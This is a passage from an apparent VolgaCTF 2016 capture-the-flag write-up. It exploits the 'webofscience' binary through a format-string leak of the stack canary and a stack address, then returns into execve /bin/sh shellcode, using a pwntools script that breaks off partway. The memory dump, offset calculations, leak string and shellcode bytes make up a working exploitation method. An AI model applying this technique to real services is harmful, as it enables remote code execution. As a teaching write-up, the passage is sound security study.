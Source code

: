 0x7fffffffdbb0:	0x707365722072756f	0x0000203a65736e6f
0x7fffffffdbc0:	0x0000000000000000	0x0000000000000000
0x7fffffffdbd0:	0x0000000000000000	0x0000000000000000
0x7fffffffdbe0:	0x0000000000000000	0x0000000000000000
0x7fffffffdbf0:	0x0000000000000000	0x0000000000000000
0x7fffffffdc00:	0x0000000000000000	0x0000000000000000
0x7fffffffdc10:	0x0000000000000000	0x0000000000000000
0x7fffffffdc20:	0x2f2f2f2f2f2f2f2f	0x2f2f2f2f2f2f2f2f
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000ff0000000000	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000056fa1730	0x00000000fbad0087
0x7fffffffdc70:	0x0000000000000000	0x00007ffff7dd5760
0x7fffffffdc80:	0x0000000056fa1730	0x00007ffff7a6e956
0x7fffffffdc90:	0x0000000000000000	0x2939c881f7aa7fa9
0x7fffffffdca0:	0x0000000000000000	0x112a139772971400
0x7fffffffdcb0:	0x00000000004006e0	0x0000000000000000
0x7fffffffdcc0:	0x00007fffffffdce0	0x0000000000401015
{% endhighlight %}

Saved `rip`is at `0x7fffffffdcc8`. If we go up the stack, we can see the leaked
stack address at `0x7fffffffdcc0` and the  canary at `0x7fffffffdca8`, which give us:

* distance between the leaked stack address and the beginning of the buffer:
  `0x7fffffffdce0 - 0x7fffffffdc20 = 192` bytes

* distance between the beginning of the buffer and the canary:
  `0x7fffffffdca8 - 0x7fffffffdc20 = 136` bytes

### Payload creation

Here is a summary of all the steps:

1. inject formats into the name to leak data on the stack
2. get the canary and leaked stack address
3. answer the 9 additions (no need to answer them correctly)
4. construct the payload and send it as the last addition response
5. the binary will return on the address of the shellcode

The payload is built as follow:

* 136 bytes containing the shellcode and some padding
* canary
* 24 bytes of padding
* leaked stack address minus 192

Here is the full python script that uses [pwntools] library:
{% highlight python %}
#!/usr/bin/env python2

from pwn import *

HOST = 'webofscience.2016.volgactf.ru'
PORT = 45678

leak = '|%43$p|%46$p|'
# source http://shell-storm.org/shellcode/files/shellcode-77.php
shellcode  = '\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62'
shellcode += '\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31'
shellcode += '\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c'
shellcode += '\x58\x0f\x05'

r = remote(HOST, PORT)

log.info('Sending leak')
r.sendline(leak)
data = r.recvuntil('your response:')

[strfmt]: https://www.owasp.org/index.php/Format_string_attack
[callconv]: https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI
[pwntools]: https://github.com/Gallopsled/pwntools